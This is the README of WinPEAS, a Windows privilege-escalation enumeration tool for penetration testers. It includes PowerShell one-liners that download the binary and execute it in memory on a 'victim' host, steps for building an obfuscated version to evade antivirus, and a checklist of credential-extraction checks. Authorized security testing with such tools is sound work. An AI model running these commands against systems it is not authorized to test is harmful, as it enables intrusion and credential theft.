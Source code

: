 # Windows Privilege Escalation Awesome Script (.exe)

![](https/github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.wiki](https/book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.wiki](https/book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)**

[![youtube](https/github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/screen.png)](https/youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https/github.com/peass-ng/PEASS-ng/releases/latest)** or **compile it yourself** (read instructions for compilation).

```bash
# Get latest release
$url = "https/github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# The cprevios cmd in 2 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Download to disk and execute (super noisy)
$wc = New-Object System.Net.WebClient
$wc.DownloadFile("https/github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe", "winPEASany_ofs.exe")
.\winPEASany_ofs.exe

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe -h # Get Help
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http/127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https/raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas #Execute also additional LOLBAS search check
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

New in this version:
- Detect potential GPO abuse by flagging writable SYSVOL paths for GPOs applied to the current host and by highlighting membership in the "Group Policy Creator Owners" group.


It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https/github.com/GhostPack/Seatbelt)**.

### New (AD-aware) checks

- Active Directory quick checks now include:
 - gMSA readable managed passwords: enumerate msDS-GroupManagedServiceAccount objects and report those where the current user/group is allowed to retrieve the managed password (PrincipalsAllowedToRetrieveManagedPassword).
 - AD CS (ESC4) hygiene: enumerate published certificate templates and highlight templates where the current user/group has dangerous control rights (GenericAll/WriteDacl/WriteOwner/WriteProperty/ExtendedRight) that could allow template abuse (e.g., ESC4 -> ESC1).

These checks are lightweight, read-only, and only run when the host is domain-joined.


## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).

![](https/github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/colors.png)

## Instructions to compile you own obfuscated version

<details>
 <summary>Details</summary>

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*.

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https/raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASexe/images/dotfuscator.PNG)

**IMPORTANT**: Note that Defender will higly probable delete the winpeas iintial unobfuscated version, so you need to set as expections the origin folder of Winpeas and the folder were the obfuscated version will be saved:
![](https/user-images.githubusercontent.com/1741662/148418852-e7ffee6a-c270-4e26-bf38-bb8977b3ad9c.png)
</details>

## Checks

<details>
 <summary>Details</summary>

- **System Information**
 - [x] Basic System info information
 - [x] Use Watson to search for vulnerabilities
 - [x] Enumerate Microsoft updates
 - [x] PS, Audit, WEF and LAPS Settings
 - [x] LSA protection
 - [x] Credential Guard
 - [x] WDigest
 - [x] Number of cached cred
 - [x] Environment Variables
 - [x] Internet Settings
 - [x] Current drives information
 - [x] AV
 - [x] Windows Defender
 - [x] UAC configuration
 - [x] NTLM Settings
 - [x] Local Group Policy
 - [x] Applocker Configuration & bypass suggestions
 - [x] Printers
 - [x] Named Pipes
 - [x] AMSI Providers
 - [x] SysMon
 - [x] .NET Versions

- **Users Information**
 - [x] Users information
 - [x] Current token privileges
 - [x] Clipboard text
 - [x] Current logged users
 - [x] RDP sessions
 - [x] Ever logged users
 - [x] Autologin credentials
 - [x] Home folders
 - [x] Password policies
 - [x] Local User details
 - [x] Logon Sessions

- **Processes Information**
 - [x] Interesting processes (non Microsoft)

- **Services Information**
 - [x] Interesting services (non Microsoft) information
 - [x] Modifiable services
 - [x] Writable service registry binpath
 - [x] PATH Dll Hijacking

- **Applications Information**
 - [x] Current Active Window
 - [x] Installed software
 - [x] AutoRuns
 - [x] Scheduled tasks
 - [x] Device drivers

- **Network Information**
 - [x] Current net shares
 - [x] Mapped drives (WMI)
 - [x] hosts file
 - [x] Network Interfaces
 - [x] Listening ports
 - [x] Firewall rules
 - [x] DNS Cache (limit 70)
 - [x] Internet Settings

- **Cloud Metadata Enumeration**
 - [x] AWS Metadata
 - [x] GCP Metadata
 - [x] Azure Metadata

- **Windows Credentials**
 - [x] Windows Vault
 - [x] Credential Manager
 - [x] Saved RDP settings
 - [x] Recently run commands
 - [x] Default PS transcripts files
 - [x] DPAPI Masterkeys
 - [x] DPAPI Credential files
 - [x] Remote Desktop Connection Manager credentials
 - [x] Kerberos Tickets
 - [x] Wifi
 - [x] AppCmd.exe
 - [x] SSClient.exe
 - [x] SCCM
 - [x] Security Package Credentials
 - [x] AlwaysInstallElevated
 - [x] WSUS

- **Browser Information**
 - [x] Firefox DBs
 - [x] Credentials in firefox history
 - [x] Chrome DBs
 - [x] Credentials in chrome history
 - [x] Current IE tabs
 - [x] Credentials in IE history
 - [x] IE Favorites
 - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
 - [x] Putty sessions
 - [x] Putty SSH host keys
 - [x] SuperPutty info
 - [x] Office365 endpoints synced by OneDrive
 - [x] SSH Keys inside registry
 - [x] Cloud credentials
 - [x] Check for unattended files
 - [x] Check for SAM & SYSTEM backups
 - [x] Check for cached GPP Passwords
 - [x] Check for and extract creds from McAffe SiteList.xml files
 - [x] Possible registries with credentials
 - [x] Possible credentials files in users homes
 - [x] Possible password files inside the Recycle bin
 - [x] Possible files containing credentials (this take some minutes)
 - [x] User documents (limit 100)
 - [x] Oracle SQL Developer config files check
 - [x] Slack files search
 - [x] Outlook downloads
 - [x] Machine and user certificate files
 - [x] Office most recent documents
 - [x] Hidden files and folders
 - [x] Executable files in non-default folders with write permissions
 - [x] WSL check

- **Events Information**
 - [x] Logon + Explicit Logon Events
 - [x] Process Creation Events
 - [x] PowerShell Events
 - [x] Power On/Off Events

- **Additional (slower) checks**
 - [x] LOLBAS search
 - [x] run **[linpeas.sh](https/raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https/github.com/peass-ng/PEASS-ng/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https/github.com/peass-ng/PEASS-ng/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

